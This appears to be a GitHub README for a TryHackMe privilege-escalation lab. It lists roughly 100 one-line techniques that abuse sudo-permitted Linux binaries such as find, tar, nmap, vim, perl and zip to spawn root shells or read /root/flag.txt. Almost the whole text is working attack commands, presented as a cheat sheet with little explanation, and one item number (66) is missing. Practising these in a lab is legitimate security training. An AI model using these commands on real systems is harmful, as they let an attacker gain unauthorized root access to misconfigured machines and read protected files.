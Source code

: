 #Linux Privesc Playground

##100 Ways of capturing root flags

https://tryhackme.com/room/privescplayground

1. sudo arp -v -f "/root/flag.txt"
2. sudo ash
3. sudo awk '//' "/root/flag.txt"
4. sudo bash
5. sudo base64 "/root/flag.txt" | base64 --decode
6. sudo busybox sh , sudo busybox cat /root/flag.txt
7. sudo cat /root/flag.txt
8. sudo chmod 0777 /root/flag.txt , cat /root/flag.txt
9. sudo chown $(id -un):$(id -gn) /root/flag.txt , cat /root/flag.txt
10. cp /root/flag.txt /dev/stdout
11. sudo csh , cat /root/flag.txt
12. cut -d "" -f1 /root/flag.txt
13. sudo dash , cat /root/flag.txt
14. date -f /root/flag.txt
15. emacs /root/flag.txt
16. sudo env /bin/sh , cat /root/flag.txt
17. expand /root/flag.txt
18. sudo expect -c 'spawn /bin/sh;interact' , cat /root/flag.txt
19.
 ```bash
TF=$(mktemp -d)
echo 'exec("/bin/sh")' > $TF/x.rb
FACTERLIB=$TF facter
```
20. file -f /root/flag.txt
21. dd if=/root/flag.txt
22. diff --line-format=%L /dev/null  /root/flag.txt
23. sudo dmsetup ls --exec '/bin/sh -s' , cat /root/flag.txt
24. 
```bash 
TF=$(mktemp -d)
echo 'print(open("/root/flag.txt").read())' > $TF/setup.py
easy_install $TF
```
25. sudo find . -exec /bin/sh \; -quit , cat /root/flag.txt
26. sudo flock -u / /bin/sh , cat /root/flag.txt
27. fmt -999 /root/flag.txt
28. fold -w99999999 /root/flag.txt
29. 
```bash 
sudo ftp
!/bin/sh
cat /root/flag.txt
```
30. sudo gawk '//' /root/flag.txt
31. gdb -nx -ex 'python print(open("/root/flag.txt").read())' -ex quit
32.
```bash
sudo irb
puts File.read("/root/flag.txt")
```
33. sudo jq -R . /root/flag.txt
34. sudo ksh , cat /root/flag.txt
35. less /root/flag.txt
36. 
```bash
sudo logsave /dev/null /bin/sh -i
cat /root/flag.txt
```
37.
```bash
sudo ltrace -L /bin/sh
cat /root/flag.txt
```
38.
```bash
git help config
!/bin/sh
```
39. grep '' /root/flag.txt
40. head -c1G /root/flag.txt
41. ionice /bin/sh , cat /root/flag.txt
42. ip -force -batch /root/flag.txt
43. sudo lua -e 'os.execute("/bin/sh")' , cat /root/flag.txt
44. sudo man /root/flag.txt
45. sudo mawk '//' "/root/flag.txt"
46. more /root/flag.txt
47. 
```bash
sudo mount -o bind /bin/sh /bin/mount
sudo mount
cat /root/flag.txt
```
48. mv /root/flag.txt . , cat /root/flag.txt
49. nano /root/flag.txt
50. sudo nawk '//' /root/flag.txt
51. nice /bin/sh , cat /root/flag.txt
52. nl -bn -w1 -s '' /root/flag.txt
53. 
```bash
sudo nmap --interactive
nmap> !sh
cat /root/flag.txt
```
54. od -An -c -w9999 /root/flag.txt
55. openssl enc -in /root/flag.txt
56. sudo perl -e 'exec "/bin/sh";' , cat /root/flag.txt
57. pg /root/flag.txt
58. 
```bash
pic -U
.PS
sh X sh X
cat /root/flag.txt
```
59. 
```bash
pico -s /bin/sh
/bin/sh
Control+T
cat /root/flag.txt
```
60. 
```bash
TF=$(mktemp -d)
echo 'raise Exception(open("/root/flag.txt").read())' > $TF/setup.py
pip install $TF
```
61. sudo puppet apply -e "exec { '/bin/sh -c \"exec sh -i <$(tty) >$(tty) 2>$(tty)\"': }" , cat /root/flag.txt
62. python -c 'print(open("/root/flag.txt").read())'
63. readelf -a @$/root/flag.txt
64. rlwrap /bin/sh , cat /root/flag.txt
65. rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null , cat /root/flag.txt
67. sudo ruby -e 'puts File.read("/root/flag.txt")'
68. run-parts --new-session --regex '^sh$' /bin , cat /root/flag.txt
69. rvim /root/flag.txt
70. 
```bash
TF=$(mktemp)
echo 'sh 0<&2 1>&2' > $TF
chmod +x "$TF"
scp -S $TF x y:
```
71. sudo screen , press SPACE ,  cat /root/flag.txt
72. sudo script -q /dev/null , cat /root/flag.txt
73. sed '' /root/flag.txt
74. sudo service ../../bin/sh , cat /root/flag.txt
75. setarch $(arch) /bin/sh , cat /root/flag.txt
76. socat stdin exec:/bin/sh , cat /root/flag.txt
77. sort -m /root/flag.txt
78. 
```bash
sudo sqlite3 << EOF
CREATE TABLE t(line TEXT);
.import $LFILE t
SELECT * FROM t;
EOF
```
79. sudo ssh -F /root/flag.txt localhost
80. start-stop-daemon -n $RANDOM -S -x /bin/sh , cat /root/flag.txt
81. stdbuf -i0 /bin/sh , cat /root/flag.txt
82. strace -o /dev/null /bin/sh , cat /root/flag.txt
83. tail -c1G /root/flag.txt
84. sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh , cat /root/flag.txt
85. sudo taskset 1 /bin/sh , cat /root/flag.txt
86. 
```bash
tclsh
exec /bin/sh <@stdin >@stdout 2>@stderr
```
87. /usr/bin/time /bin/sh , cat /root/flag.txt
88. timeout 7d /bin/sh , cat /root/flag.txt
89. sudo tmux , cat /root/flag.txt
90. ul /root/flag.txt
91. unexpand -t99999999 /root/flag.txt
92. uniq /root/flag.txt
93. sudo unshare /bin/sh , cat /root/flag.txt
94. vi /root/flag.txt
95. vim /root/flag.txt
96. sudo watch -x bash -c 'reset; exec bash 1>&0 2>&0' , cat /root/flag.txt
97. xargs -a /root/flag.txt -0 
98. xxd /root/flag.txt | xxd -r
99. 
```bash
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```
100. sudo zsh , cat /root/flag.txt
